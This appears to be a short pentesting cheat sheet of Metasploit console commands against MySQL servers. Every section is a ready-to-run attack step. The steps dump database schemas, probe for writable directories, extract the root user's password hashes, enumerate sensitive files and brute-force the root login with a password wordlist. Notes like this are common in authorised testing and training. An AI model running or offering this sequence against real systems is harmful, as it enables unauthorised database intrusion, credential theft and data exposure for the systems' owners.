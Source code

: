 ##### Dump the Schema of all Databases
```
msfconsole
search mysql
use auxiliary/scanner/mysql/mysql_schemadump
set rhosts IP
advanced
set username root
set password ""
run
```

##### Check Writable Directories 
```
use auxiliary/scanner/mysql/mysql_writable_dirs
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
set rhosts IP
set password ""
set verbose false
run
```

##### System Password Hash for user 'root'
```
use auxiliary/scanner/mysql/mysql_hashdump
set password ""
set rhosts IP
set username root
run
```

##### Find Sensitive Files
```
use auxiliary/scanner/mysql/mysql_file_enum
set rhosts IP
set file_list /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set password ""
run
```

##### Find the Password
```
use auxiliary/scanner/mysql/mysql_login
set rhosts IP
set username root
set file_list /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set stop_on_success true
set verbose false
run
```